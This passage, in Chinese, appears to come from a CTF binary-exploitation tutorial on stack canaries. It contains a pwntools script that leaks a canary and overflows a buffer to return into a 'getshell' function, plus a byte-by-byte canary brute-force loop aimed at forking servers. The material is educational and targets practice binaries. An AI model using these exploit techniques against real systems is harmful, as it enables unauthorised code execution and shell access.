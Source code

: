 首先通过覆盖 Canary 最后一个 `\x00` 字节来打印出 4 位的 Canary
之后，计算好偏移，将 Canary 填入到相应的溢出位置，实现 Ret 到 getshell 函数中

```python
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')

get_shell = ELF("./ex2").sym["getshell"]

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = "A"*100
io.sendline(payload)

io.recvuntil("A"*100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
io.send(payload)

io.recv()

io.interactive()
```
### one-by-one 爆破 Canary

对于 Canary，虽然每次进程重启后的 Canary 不同(相比 GS，GS 重启后是相同的)，但是同一个进程中的不同线程的 Canary 是相同的， 并且
通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。
在著名的 offset2libc 绕过 linux64bit 的所有保护的文章中，作者就是利用这样的方式爆破得到的 Canary:
这是爆破的 Python 代码:

```python
print "[+] Brute forcing stack canary "

start = len(p)
stop = len(p)+8

while len(p) < stop:
   for i in xrange(0,256):
      res = send2server(p + chr(i))

      if res != "":
         p = p + chr(i)
         #print "\t[+] Byte found 0x%02x" % i
         break

      if i == 255:
         print "[-] Exploit failed"
         sys.exit(-1)


canary = p[stop:start-1:-1].encode("hex")
print "   [+] SSP value is 0x%s" % canary
```
